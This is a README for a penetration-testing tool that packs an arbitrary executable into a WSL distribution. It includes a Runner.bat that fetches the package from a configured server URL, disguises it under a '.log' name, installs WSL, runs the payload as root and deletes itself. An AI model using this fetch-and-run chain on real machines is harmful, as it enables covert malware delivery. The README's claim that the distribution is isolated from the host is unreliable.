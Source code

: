 # WSL Payload Builder
## Overview
A shell script for creating minimal WSL (Windows Subsystem for Linux) distributions with embedded payloads. This tool automates the process of building Alpine Linux-based WSL distributions that can execute custom payloads upon launch.

The `Build_WSL_Payload.sh` script downloads the latest Alpine Linux rootfs, customizes it for WSL use, embeds a user-specified executable, and packages everything into a distributable `.wsl` file. 

The `Runner.bat` will download the WSL config file from the provided URL and launch it **(will install wsl if not present and admin rights are available)**

This is particularly useful for penetration testing, security research, and custom WSL environment creation.

## Usage

### Building Payloads (Linux/macOS/Windows(WSL))
#### Arguments

- **`-N, --name`**: Specify the default distribution name for WSL
- **`-P, --payload`**: Specify the path to the payload executable file
- **`-H, --help`**: Display the help menu

#### Examples

```bash
# Build a WSL distribution named "CalcWSL" with a custom payload
./Build_WSL_Payload.sh -N CalcWSL -P ./Calc.exe
```
### Running Payloads (Windows)

#### Basic Usage

Option 1.
**Double-Click** - Double clicking the WSL file will execute the payload but will also open a cmd prompt that must be closed manually. (Not recommended)

Option 2.
**Use the Runner.bat file**

```cmd
C:\Users\USER_NAME> .\Runner.bat
```

#### What it does

The `Runner.bat` script automatically:

1. **Downloads** the WSL payload file from a configured URL
2. **Checks** if WSL is already installed on the system
3. **Installs** WSL if not present (requires administrator privileges)
4. **Installs** the downloaded WSL distribution
5. **Cleans up** by removing the distribution and itself after execution.

#### Requirements

- **Windows 10/11** with WSL support
- **Administrator privileges** (if WSL is not already installed)
- **Internet connection** to download the payload file if using the .bat script

#### Configuration

Edit the variables at the top of `Runner.bat` to customize:

```batch
set "DOWNLOAD_URL=https://your-server.com/payload.wsl"
set "WSL_FILE=payload.log" # Still testing but can use most file extensions here. 
```

## Security Considerations

- **Payload Execution**: The embedded payload runs with root privileges when the WSL distribution is launched
- **File Permissions**: All executable files are properly set with appropriate permissions
- **Isolation**: The generated WSL distribution is isolated from the host system

## License
MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer

This tool is intended for legitimate security research and penetration testing. Users are responsible for ensuring they have proper authorization before testing systems they do not own or have explicit permission to test.

## References

This project was inspired by and builds upon the research and techniques documented in the [dmcxblue/WSL-Payloads](https://github.com/dmcxblue/WSL-Payloads) repository, which provides valuable insights into WSL file format weaponization and security research.
